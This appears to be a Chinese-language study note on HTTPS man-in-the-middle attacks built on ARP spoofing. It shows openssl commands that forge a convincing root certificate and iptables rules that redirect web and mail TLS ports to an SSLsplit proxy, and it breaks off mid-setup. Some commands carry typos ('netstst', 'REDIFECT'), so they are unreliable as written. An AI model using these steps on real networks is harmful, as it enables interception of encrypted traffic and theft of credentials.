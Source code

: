 >不仅是http和tcp/ip协议容易出现安全问题，底层的网络协议也存在很多问题，自己搭建环境练习

加密流量

![](https://geoer666-1257264766.cos.ap-beijing.myqcloud.com/HTTPS%E6%94%BB%E5%87%BB_2.png)



> ps：下来的演示，是基于ARP欺骗的：



#### 利用

##### 攻击的前提

- 客户端已经信任了伪造证书颁发机构
- 攻击者控制了核发证书颁发机构（CA证书服务器）
- 客户端程序禁止了显示证书错误告警信息
- 攻击者已经控制客户端，并强制其信任伪造证书

##### 工具
对已经实现中间人欺骗(这里用`arpspoof`)后，下面的工具对信息进行解密

###### 1.`SSLsplit`工具
- 透明SSL/TLS中间人攻击工具
- 对客户端伪装成服务器，对服务器伪装成普通客户端
- 伪装服务器需要伪造证书（利用`openssl`来生成伪造的证书）
- 支持ssl/tls加密的smtp、pop3、ftp等通信中间人攻击

**1). openssl**

```bash
# 1.利用openssl生成证书私钥
openssl genrsa -out ca.key 2048

# 2.利用私钥签名生成证书(生效时间,使用的私钥文件)  -- 这是根证书，不是一会使用的证书，用的证书是需要这个根证书来签名的
openssl req -new -x509 -days 1096 -key ca.key -out ca.crt

# 下来输入一些信息即可（信息可以把之前扫描的信息添进来以保证看起来很真实）
```

**2).攻击机器设置路由转发**
下面，当受害者的流量通过我的机器，我的机器来转发（需要我的系统来开启路由功能）：

做个地址转换, 比如:  把我计算机443端口收到的数据包转发到8443端口

```bash
# 先查看要用到的端口有没有被占用
netstst -pantu |grep :80

# 查看nat表
iptables -t nat -L

# -F  清空
iptables -t nat -F

# 端口转发命令（PREROUTING在路由之前,-p协议, -j操作）
iptables -t nat -A PREROUTING -p tcp --dport 80 -j REDIFECT --to-port 8080
iptables -t nat -A PREROUTING -p tcp --dport 443 -j REDIFECT --to-port 8443
iptables -t nat -A PREROUTING -p tcp --dport 587 -j REDIFECT --to-port 8443   # MSA
iptables -t nat -A PREROUTING -p tcp --dport 465 -j REDIFECT --to-port 8443    # SMTPS 发邮件
iptables -t nat -A PREROUTING -p tcp --dport 993 -j REDIFECT --to-port 8443	# IMAPS    收邮件
iptables -t nat -A PREROUTING -p tcp --dport 995 -j REDIFECT --to-port 8443 #POP3S
#其他使用ssl协议加密的协议端口一样

iptables -L

```
